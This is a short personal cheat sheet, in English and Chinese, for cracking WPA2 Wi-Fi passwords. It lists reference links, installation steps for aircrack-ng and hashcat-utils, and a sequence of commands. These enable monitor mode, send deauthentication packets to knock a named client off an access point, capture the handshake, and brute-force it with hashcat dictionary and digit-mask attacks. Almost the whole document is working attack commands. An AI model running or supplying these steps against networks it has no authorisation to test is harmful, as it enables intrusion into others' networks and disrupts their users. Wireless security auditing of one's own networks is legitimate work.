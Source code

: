 # wifi wpa2 attack

created: 20220709 updated: 20221210 authors: alick97

---

- https://www.mzbky.com/1791.html
- https://zh.wikihow.com/%E4%BD%BF%E7%94%A8Kali-Linux%E7%A0%B4%E8%A7%A3WPA%E6%88%96WPA2%E6%97%A0%E7%BA%BF%E5%B1%80%E5%9F%9F%E7%BD%91
- [for mac os ] https://martinsjean256.wordpress.com/2018/02/12/hacking-aircrack-ng-on-mac-cracking-wi-fi-without-kali-in-parallels/
- [for mac os] https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html

### packages install in ubuntu
```
sudo apt install aircrack-ng hashcat

wget https://github.com/hashcat/hashcat-utils/archive/master.zip
unzip master.zip
cd hashcat-utils-master/src
make
# get cap2hccapx.bin
```

######
### 一些常见命令
#### 常用指令
```
# 启动监听 会创建新的net interface 后缀为 mon
airmon-ng start wlan0
# 停止监听 net interface
airmon-ng stop wlan0
# 关闭相关没开启mon之前用到interface的service
airmon-ng start check --kill


# 监听所有
airodump-ng wlan0mon

# 发起断开连接
sudo aireplay-ng -0 10 -a 24:CF:24:32:F2:4F -c 60:AB:67:E8:C6:44  wlo1mon
# 支持搜索5g 默认2.4g
sudo airodump-ng --band abg --output-format pcap -w t -c 10 --bssid 24:CF:24:32:F2:4F wlo1mon

# hashcat相关
cap2hccapx capture.cap capture.hccapx
hashcat -m 2500 capture.hccapx wordlist.txt
hashcat -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d
sudo hashcat --deprecated-check-disable -m 2500 t2.hccapx ../dict/rockyou.txt
```

#### ubuntu关闭mon interface后 重启network
```
sudo systemctl restart NetworkManager
```